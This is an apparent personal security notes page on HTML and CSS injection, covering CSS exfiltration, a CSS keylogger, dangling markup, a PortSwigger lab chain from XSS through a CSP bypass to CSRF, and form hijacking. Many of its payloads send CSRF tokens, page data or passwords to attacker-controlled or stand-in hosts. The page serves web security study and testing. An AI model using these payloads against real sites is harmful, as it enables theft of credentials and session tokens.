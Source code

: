 HTML and CSS injections are a variation of [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) that verifies when you can inject HTML code into the page, but something is preventing you from injecting JavaScript tags or snippets of code.

In these cases, classic XSS exploitation is not feasible, but there are other techniques applicable to these scenarios that still make page exploitation possible.

## CSS injection and exfiltration

You can use the `@import` rule that works also for **blind CSS exfiltration**:
```html
"><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

The main technique to exfiltrate information via CSS Injection is to try to match a text with CSS and in case that text exist load some external resource:

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```

>[!warning]
>This technique won't work if the filed is **hidden**, because the background won't be loaded.
>Fix:
>```css
>input[name=csrf][value^=csrF] ~ * {
>    background-image: url(https://attacker.com/exfil/csrF);
>}
>```

A CSS "keylogger" [^video] can be constructed in the same way [^css-k] :

[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```

With CSS injection however, it is also possible to perform [UI redressing](Clickjacking.md#UI%20redressing%20and%20XSS) in order to re-define any CSS style included in the original page in order to hijack the original behavior.

More attacks can be found at
- [CSS Injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection), HackTricks 
- [Blind CSS Exfiltration: exfiltrate unknown web pages](https://portswigger.net/research/blind-css-exfiltration), PortSwigger

## Dangling markup injection

>[!question] What is dangling markup injection?
>Dangling markup injection is a technique that can be used to capture data cross-domain in situations where a full cross-site scripting exploit is not possible, due to input filters or other defenses. Any attribute that makes an external request can be used for dangling markup.

Often used to capture sensitive information visible to users, like:
- CSRF token
- API keys
- Secrets
- Email messages

>[!example]
>Application code injecting user-supplied data inside the `value` field: `<input type="text" name="input" value="CONTROLLABLE DATA HERE`
>In case there is WAF or something preventing XSS, attacker can exfiltrate data using a payload like `"><img src='//attacker-website.com?`
>
>This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the `src` attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.
>

### Password reset poisoning via dangling markup

![Password reset poisoning via dangling markup](Password%20Reset%20Poisoning.md#Password%20reset%20poisoning%20via%20dangling%20markup)

### XSS + Dangling Markup + CSP bypass + CSRF

[Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md) used by the app (very strict):
```http
Content-Security-Policy: default-src 'self';object-src 'none'; style-src 'self'; script-src 'self'; img-src 'self'; base-uri 'none';
```

Discovered a reflection point using pre-filled data:
```html
https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3EThis%20is%20injected%20%3C!--

<label>Email</label>
<input required type="email" name="email" value="">This is injected <!--">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'> Update email </button>
</form>
</div>
</div>
</section>
<div class="footer-wrapper">
</div>
</div>
</body>
</html>-->
```

![](../../zzz_res/attachments/xss-prefilled.png)

XSS can't be obtained but we can leak pages data, including a CSRF token, if we trick the user clicking the link:
```html
<script>
if(window.name) {
	// when imported inside the page using the XSS, it leaks the data contained inside the <base target=""> tag
	new Image().src='//exploit-0a38001803df086284e31d1601610050.exploit-server.net?'+encodeURIComponent(window.name);
	} else {
	// injects the XSS in the email filed
	location = 'https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a38001803df086284e31d1601610050.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>

<!-- resultin base tag after the XSS -->
<base target='">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'>
```
Logs:
```
...
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /?%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%20type%3D%22hidden%22%20name%3D%22csrf%22%20value%3D%22Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
...
```

Finally, we can conduct out [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) and change victim's email:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Form Hijacking (Capture passwords exploiting auto-fill)

The idea is you have a HTML injection vulnerability that is protected by [Content Security Policy (CSP)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Content%20Security%20Policy%20(CSP).md). Then you use the HTML injection to inject your own form action by using the `formaction` attribute or injecting your own form to send data to the attackers server. [^form-hijacking]

[^form-hijacking]: [Gareth Heyes - Using Form Hijacking to Bypass CSP](../../Readwise/Articles/Gareth%20Heyes%20-%20Using%20Form%20Hijacking%20to%20Bypass%20CSP.md)

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://uusx5ulcqjyd4ypy5x9hhjhoffl89zxo.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Related article: [Stealing passwords from infosec Mastodon - without bypassing CSP](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp)
